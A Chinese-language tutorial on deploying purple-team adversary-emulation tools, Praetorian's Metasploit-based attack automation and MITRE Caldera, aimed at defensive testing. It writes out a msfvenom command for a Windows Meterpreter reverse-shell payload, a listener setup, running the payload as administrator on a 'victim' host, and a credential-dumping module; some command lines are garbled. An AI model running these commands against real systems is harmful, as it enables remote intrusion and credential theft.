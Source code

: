 # 威胁工具研究

## 紫色团队攻击自动化

Github：<https://github.com/praetorian-code/purple-team-attack-automation>

工具部署及安装方法：

1、kali下安装docker-compose

```bash
apt-get install docker docker-compose
```

2、下载Github文件

```bash
git clone https://github.com/praetorian-code/purple-team-attack-automation.git
```

3、编译./docker-compose.local.override.yml文件以反映您本地系统的LHOST，如下所示。默认情况下，端口4444将被转发到docker容器。如果要使用其他端口（例如，以镜像HTTPS），则必须将它们添加到此文件中。(注意此文件需要自行创建)

```yml
version: '3'
services:
  ms:
    environment:
      # example of setting LHOST
      LHOST: 10.0.8.2
    # example of adding more ports
    ports:
      - 8080:8080
      - 443:443
```

根据需要添加/删除其他端口或IP地址。不要忘记将LHOST更改为您自己的IP地址。
确保设置LHOST为可解析为主机的有效主机名。

4、设置COMPOSE_FILE环境变量

```bash
echo "COMPOSE_FILE=./docker-compose.yml:./docker-compose.override.yml:./docker-compose.local.override.yml" >> .env
```

5、建议并运行docker容器

```bash
service docker start
docker-compose build
./docker/bin/msfconsole #当前目录下执行此命令
```

**启动之后进入docker msfconsole中**a

6、生成Meterpreter有效载荷

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.126.130 LPORT=4444 -f exe > meterpreter.exe
```

7、启动并运行本地侦听(msf下操作)

```bash
 use exploit/multi/handler
 set Interrupt: use the 'exit' command to quit
 set PAYLOAD windows/meterpreter/reverse_tcp
 set LHOST <Attacker IP Address>
 set LPORT 4444
 exploit -j -z
```

复制并在目标（“受害者”）主机上以管理员身份运行meterpreter.exe，然后等待会话。

8、运行相关TTP模块。面提供了模块列表。例如，要启动“凭据转储（T1003）”模块，请运行：

```bash
use modules/post/windows/purple/t1003
info
set session 1
run
```

9、其他

查看目前有哪些TID

```bash
reload_all
search purple
```

set Interrupt: use the 'exit' command to quit

学习视频：
<https://www.youtube.com/watch?v=o3Qb_0clIpg&feature=youtu.be>

## 卡尔德拉caldera

Github：<https://github.com/mitre/caldera>

1、首先以递归方式克隆此存储库，并以xxx格式传递所需的版本/发行版。这将拉出所有可用的插件。

```bash
git clone --branch x.x.x https://github.com/mitre/caldera.git --recursive
```

目前最新版本为：2.3.2

2、从该文件的根目录开始，安装PIP要求。

```bash
pip install -r requirements.txt
```

注意：由于该项目要求python3.5以上，因此在执行此命令时要注意以pip3执行

3、启动服务

```bash
python server.py
```

注意：此处也是个坑，如果你安装有多个版本python,建议指定python版本。

```bash
python3.7 server.py
```

关于使用建议参考官方
